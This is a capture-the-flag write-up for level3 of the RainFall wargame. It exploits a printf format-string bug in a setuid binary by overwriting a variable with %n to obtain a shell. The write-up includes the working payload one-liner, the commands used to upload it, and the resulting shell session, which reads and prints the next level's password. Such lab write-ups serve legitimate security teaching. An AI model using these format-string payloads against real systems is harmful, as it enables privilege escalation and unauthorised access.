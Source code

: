 # level3

## Header

```bash
ssh level3@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

<hr>

## Solution

From the inspecting [disassembled code](./source.s), we can understand that we can use vulnerable `printf` to overwrite the value of `m` variable and make the program execute `/bin/sh`.

```bash
level3@RainFall:~$ echo "zzzz %p %p %p %p %p" | ./level3 
zzzz 0x200 0xb7fd1ac0 0xb7ff37d0 0x7a7a7a7a 0x20702520
```

From these lines we can understand that `zzzz` argument is on `esp + 16` position i.e. it is the 4th argument. 
We'll use `%n` in order to write the data to the address of `m` var (`0x0804988c`).

First, we need to upload payload:
```bash
scp -P 4242 ./level3/payload.py level3@192.168.64.9:/tmp/payload3.py

python /tmp/payload3.py
```

This will produce payload file that should be used to exploit the binary:

```bash
level3@RainFall:~$ (python /tmp/payload.py; cat) | ./level3
# or
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" * 16 + "%4$n"'; cat) | ./level3

pwd
/home/user/level3
cd ../level4
ls -la   
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## References
- [OWASP - format string attack](https://owasp.org/www-community/attacks/Format_string_attack)